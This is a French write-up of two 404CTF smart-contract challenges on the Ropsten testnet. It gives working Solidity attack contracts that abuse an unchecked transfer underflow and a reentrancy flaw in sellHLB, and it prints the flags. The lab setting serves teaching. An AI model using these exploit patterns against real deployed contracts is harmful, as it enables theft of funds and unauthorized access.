








# La guerre des contrats

Ce challenge est composé de deux parties, avec à chaque fois un contrat vulnérable à attaquer.

Pour ce write-up, je vais d'abord expliquer ma méthode pour interagir avec les contrats.

## Ropsten, Metamask et Remix

La première chose à faire est de télécharger [Metamask](https://metamask.io/) (j'utilise l'extension Google Chrome).

Ensuite, activer l'option pour afficher les réseaux de test, et choisir le réseau de test Ropsten.



En appuyant sur le bouton en haut à droite, on peut ensuite se créer un compte de test.


Il faut maintenant mettre de l'ether sur ce compte. Pour ce faire, on peut aller sur [Ropsten Faucet](https://faucet.dimensions.network/).
Il suffit de copier l'adresse du compte, et 1 ether sera transféré sur le compte (parfois, il y a beaucoup de demandes de transaction, donc il faut recommencer jusqu'à avoir l'argent).

Une fois effectué, on peut ouvrir l'éditeur en ligne [Remix](https://remix.ethereum.org/).

Aller sur le 4e onglet `Deploy & run transactions`, sélectionner `Injected Web3`.

Normalement une fenêtre Metamask s'ouvre, et on peut ajouter le compte. Une fois le compte ajouté, on doit avoir une fenêtre similaire:



On peut alors importer le fichier `.sol` donné par les énoncés et créer un contrat pour l'attaquer.

## Challenge 1/2

> Agent, nous avons découvert un smart contract de Hallebarde qui permet d'obtenir de l'argent gratuitement. Il sert également à s'authentifier en tant que nouveau membre de Hallebarde. Nous voulons que vous vous fassiez passer pour un de leurs membres. Nous avons récemment trouvé un endpoint qui semble leur servir de portail de connexion. Introduisez-vous dans leur système et récupérez toutes les informations sensibles que vous pourrez trouver.
>
> Contrat à l'adresse : 0xb8c77090221FDF55e68EA1CB5588D812fB9f77D6
>
> Réseau de test Ropsten
>
> nc challenge.404ctf.fr 30885

Le contrat est le suivant:

```solidity
pragma solidity 0.7.6;

contract FreeMoney {

    mapping (address => uint256) balances;
    mapping(address => uint256) lastWithdrawTime;
    mapping(address => bool) isHallebardeMember;
    address private boss;

    constructor() public {
        boss = msg.sender;
    }

    function getMoney(uint256 numTokens) public {
        require(numTokens < 10000);
        require(block.timestamp >= lastWithdrawTime[msg.sender] + 365 days, "Vous devez attendre un an entre chaque demande d'argent.");
        balances[msg.sender] += numTokens;
        lastWithdrawTime[msg.sender] = block.timestamp;
    }

    function reset() public {
        balances[msg.sender] = 0;
        lastWithdrawTime[msg.sender] = 0;
    }

    function transfer(address receiver, uint256 numTokens) public returns (bool) {
        require(balances[msg.sender] > 0);
        balances[msg.sender] -= numTokens;
        balances[receiver] += numTokens;
        return true;
    }    

    function enterHallebarde() public {
        require(balances[msg.sender] > 100 ether || boss == msg.sender, "Vous n'avez pas assez d'argent pour devenir membre de Hallebarde.");
        require(msg.sender != tx.origin || boss == msg.sender, "Soyez plus entreprenant !");
        require(!isHallebardeMember[msg.sender]);
        isHallebardeMember[msg.sender] = true;
    }

    function getMembershipStatus(address memberAddress) external view returns (bool) {
        require(msg.sender == memberAddress || msg.sender == boss);
        return isHallebardeMember[memberAddress];
    }
}
```

### Description

Le contrat simule une banque qui gère des comptes pour ses clients.

On a accès à 3 fonctions intéressantes:
- `getMoney`: on entre un entier non signé plus petit que 10000, et ce montant est ajouté à notre compte. On ne peut appeler cette fonction qu'une fois par an (et par contrat).
- `transfer`: si l'appelant a un compte en banque dans le positif, il transfère `numTokens` à `receiver`.
- `enterHallebarde`: il faut avoir 100 ether (ou être le boss, mais cela a peu de chance d'arriver) pour devenir membre de Hallebarde.

Une fois membre, on peut se connecter avec netcat à l'adresse donnée et avoir le flag.

### Solution

On remarque que si `transfer` vérifie que notre compte a de l'argent, mais ne vérifie pas que l'argument `numToken` donné est bien inférieur à la somme sur le compte.

Rien ne m'empêche donc de donner 100 ether à un autre compte.

Ainsi, je crée deux contrats: `Attack` va s'inscrire à la banque, `Attack2` également, puis va donner 100 ether à `Attack`. Enfin, `Attack` va pouvoir devenir membre de Hallebarde.

A noter que le compte de `Attack2` va être en négatif, mais comme le type est `uint256`, sa somme va en fait rester positive, et donc il pourrait également devenir membre de Hallebarde.

Pour effectuer cela, j'ajoute à la fin du fichier sol le code suivant:

```solidity
contract Attack {
    FreeMoney public target;
    constructor(address _address) public {
        target = FreeMoney(_address);
        target.getMoney(5000);
    }

    function connect() public {
        target.enterHallebarde();
    }
}

contract Attack2 {
    FreeMoney public target;
    constructor(address _address, address _other) public {
        target = FreeMoney(_address);
        target.getMoney(5000);
        target.transfer(_other, 100 ether);
    }
}
```

Puis je crée le contrat `Attack`:



Choisir le contrat `Attack`, puis entrer l'adresse de la banque, et cliquer sur `Deploy`.

On peut effectuer de même avec `Attack2`. L'addresse de `Attack` se trouve en bas, dans la section `Deployed Contracts`.

Une fois cela effectué, on peut lancer la fonction `connect` du premier contrat.



Nous sommes normalement membres de Hallebarde, et pouvons donc nous connecter grâce à l'adresse de notre contrat.



Flag: `404CTF{5M4r7_C0N7r4C7_1NC3P710N_37_UND3rF10W_QU01_D3_P1U5_F4C113}`.

## Challenge 2/2

> Agent, maintenant que vous avez des compétences un peu plus approfondies en web3, nous aimerions faire appel à vos compétences dans une situation plus délicate. Nous avons décelé des traces d'activités suspectes à l'adresse 0xD5c0873f147cECF336fEEF1a28474716C745Df86. Hallebarde essaye apparemment de créer sa propre cryptomonnaie. De plus, il semble que les plus anciens membres de Hallebarde puissent récupérer une sorte de pass VIP. Utilisez ce pass pour obtenir des informations seulement connues par l'élite de Hallebarde.

Le second contrat est le suivant:

```solidity
contract HallebardeToken is IERC20 {
    using SafeMath for uint256;

    string public constant name = "Hallebarde";
    string public constant symbol = "HLB";
    uint8 public constant decimals = 18;

    mapping(address => uint256) balances;
    mapping(address => mapping (address => uint256)) allowed;
    mapping(address => uint256) seniority;
    mapping(address => uint256) lastWithdrawTime;

    uint256 private vipPass;
    address private boss;
    uint256 totalSupply_;

    constructor(string memory _password) public {
        totalSupply_ = 1000000 ether;
        balances[msg.sender] = 1000 ether;
        balances[address(this)] = 999000 ether;
        seniority[msg.sender] = 10*365 days;
        boss = msg.sender;
        rand(_password);
    }

    function rand(string memory _password) public onlyOwner {
        vipPass = uint(keccak256(abi.encodePacked(
        msg.sender,
        block.timestamp,
        block.difficulty,
        vipPass,
        balances[address(this)],
        _password)));
    }

    function totalSupply() public override view returns (uint256) {
        return totalSupply_;
    }

    function balanceOf(address tokenOwner) public override view returns (uint256) {
        return balances[tokenOwner];
    }

    function seniorityOf(address tokenOwner) public view returns (uint256) {
        return seniority[tokenOwner];
    }

    function buyHLB() public payable {
        require(msg.value > 0, "Vous avez besoin d'ethereum pour acheter des HLB.");
        require(balances[address(this)] >= msg.value, "Il n'y a plus assez de HLB disponible. Revenez plus tard.");
        balances[msg.sender] = balances[msg.sender].add(msg.value);
        balances[address(this)] = balances[address(this)].sub(msg.value);
    }
    
    function sellHLB(uint256 numTokens) public {
        require(balances[msg.sender] >= numTokens);
        require(block.timestamp >= lastWithdrawTime[msg.sender] + 365 days, "Vous devez attendre un an entre chaque retrait.");

        transfer(address(this), numTokens);
        seniority[msg.sender] = seniority[msg.sender].add(365 days);
        (bool sent, ) = msg.sender.call{value: numTokens}("");
        require(sent, "Erreur lors de l'envoi de l'ethereum.");
        lastWithdrawTime[msg.sender] = block.timestamp;
    }

    function transfer(address receiver, uint256 numTokens) public override returns (bool) {
        require(numTokens <= balances[msg.sender]);
        balances[msg.sender] = balances[msg.sender].sub(numTokens);
        balances[receiver] = balances[receiver].add(numTokens);
        emit Transfer(msg.sender, receiver, numTokens);
        return true;
    }

    function approve(address delegate, uint256 numTokens) public override returns (bool) {
        allowed[msg.sender][delegate] = numTokens;
        emit Approval(msg.sender, delegate, numTokens);
        return true;
    }

    function reset() external returns (string memory){
        balances[msg.sender] = 0;
        seniority[msg.sender] = 0;
        lastWithdrawTime[msg.sender] = 0;
        return "Pas d'argent pour les impatients !";
    }

    function allowance(address owner, address delegate) public override view returns (uint256) {
        return allowed[owner][delegate];
    }

    function transferFrom(address owner, address buyer, uint256 numTokens) public override returns (bool) {
        require(numTokens <= balances[owner]);
        require(numTokens <= allowed[owner][msg.sender]);

        balances[owner] = balances[owner].sub(numTokens);
        allowed[owner][msg.sender] = allowed[owner][msg.sender].sub(numTokens);
        balances[buyer] = balances[buyer].add(numTokens);
        emit Transfer(owner, buyer, numTokens);
        return true;
    }

    function senior() external view returns (uint256) {
        require(seniority[msg.sender] >= 10 * 365 days, "Revenez dans quelque temps.");
        require(seniority[msg.sender] < 150 * 365 days, "Vous vous faites vieux, laissez-nous la place.");
        return vipPass;
    }

    fallback () external payable  {
        revert();
    }

    modifier onlyOwner() {
        require(msg.sender == boss);
    _;
    }

}
```

### Description

Là encore, on a affaire à une banque, et on a quelques fonctions intéressantes:
- `buyHLB`: on fournit des ether, et ils sont stockés dans la banque sur notre compte.
- `sellHLB`: on récupère nos ethers, et notre séniorité augmente d'un an. On ne peut appeler cette fonction qu'une fois par an.
- `senior`: donne le pass VIP, à condition que notre ancienneté soit comprise entre 10 et 150 ans.

Il s'agit d'une vulnérabilité classique sur les smart contracts appelée la `reentrency`.

En effet, quand un contrat transfère de l'argent à un autre contrat, le contrat qui reçoit de l'argent appelle une fonction (le fallback).

Ce fallback peut ainsi effectuer diverses actions, par exemple rappeler la fonction en question.

Dans notre cas, la fonction `sellHLB` effectue les opérations suivantes:
1) vérifie que le compte en banque de l'appelant comporte un montant supérieur à `numTokens`;
2) vérifie que le dernier retrait de l'appelant était il y a moins d'un an;
3) met à jour la valeur monétaire du compte;
4) augmente la séniorité de l'appelant d'un an;
5) envoie l'argent à l'appelant;
6) vérifie si la transaction a réussi. Si elle a échoué, annule le tout;
7) met à jour la date de dernier retrait de l'appelant.


### Attaque

Ainsi, si l'appelant a pour fallback une fonction qui rappelle `sellHLB`, le premier appel va être bloqué à l'étape 5, et donc l'étape 7 de mise à jour de la date de retrait n'est pas effectuée tout de suite.

Le second appel va donc toujours vérifier l'étape 2, et va pouvoir effectuer à nouveau un retrait.

Une fois la chaîne d'appels terminés, les étapes 6 et 7 vont toutes réussir, et donc on aura pu effectuer de nombreux retraits, ce qui aura augmenté notre séniorité.

Le contrat suivant effectue l'attaque:

```solidity
contract Attack {
    HallebardeToken public target;
    uint private fallback_called;

    constructor(address _address) public payable {
        address payable payableAddress = payable(_address);
        target = HallebardeToken(payableAddress);
        fallback_called = 0;
        target.buyHLB{value:100}();
    }

    function sell() public {
        target.sellHLB(1);
    }

    function senior() external view returns (uint256) {
        return target.senior();
    }

    function fc() external view returns (uint) {
        return fallback_called;
    }

    fallback () external payable {
        if(fallback_called <= 50) {
            fallback_called += 1;
            target.sellHLB(1);
        }
    }
}
```

Copier ces lignes à la fin du fichier comportant le contrat, puis le déployer sans oublier de lui donner de l'ether pour acheter des HLB.



Une fois cela effectué, on peut vendre nos HLB en lançant la fonction `sell`. Le fallback sera automatiquement appelé, et on donc `sellHLB` sera appelée 50 fois.

Une fois cela effectué, on peut appeler la fonction `senior` pour avoir le pass VIP.



Cela nous permet de récupérer le flag.



Flag: `404CTF{135_5M4r7_C0N7r4C75_54V3N7_4U551_J0U3r_4U_P1N6_P0N6}`